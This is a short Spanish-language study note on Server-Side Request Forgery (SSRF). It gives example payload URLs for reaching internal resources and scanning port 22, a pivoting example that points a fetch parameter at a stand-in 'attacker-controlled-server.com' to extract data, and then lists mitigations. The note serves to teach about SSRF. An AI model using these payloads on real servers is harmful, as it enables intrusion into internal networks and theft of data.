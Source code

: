 ___

- Tags: 

___

# Introducción

Server-Side Request Forgery (**SSRF**) es una vulnerabilidad de seguridad que permite a un atacante forzar al servidor a realizar solicitudes [[HTTP]] desde dentro del sistema, lo que puede resultar en ataques contra recursos internos y externos.

____
# Ejemplos de URLs Vulnerables

- **Caso 1: Acceso a recursos internos**

  ```plaintext
  http://vulnerable-website.com/api/fetch?url=http://internal-resource.com/secret
  ```

- **Caso 2: Escaneo de puertos internos**

  ```plaintext
  http://vulnerable-website.com/api/fetch?url=http://internal-server:22
  ```

___
# Pivoting en SSRF

**SSRF** también puede ser utilizado para realizar ataques de pivoting, permitiendo al atacante acceder a otros servicios y recursos a través del servidor comprometido.

### Ejemplo de Pivoting

1. **Solicitud Maliciosa Inicial**

   ```plaintext
   http://vulnerable-website.com/api/fetch?url=http://internal-service.com/data
   ```

2. **Utilizando el SSRF para Acceder a una Base de Datos**

   ```plaintext
   http://vulnerable-website.com/api/fetch?url=mysql://attacker-controlled-server.com:3306/extract_data
   ```

3. **Exfiltración de Datos**
   
   Una vez que se ha establecido la conexión a la base de datos, el atacante puede extraer datos sensibles.

____
# Medidas de Mitigación

- Validar y filtrar las entradas del usuario.
- Restringir las solicitudes a direcciones [[Dirección IP|IP]] y recursos específicos.
- Utilizar listas blancas en lugar de listas negras para las direcciones permitidas.

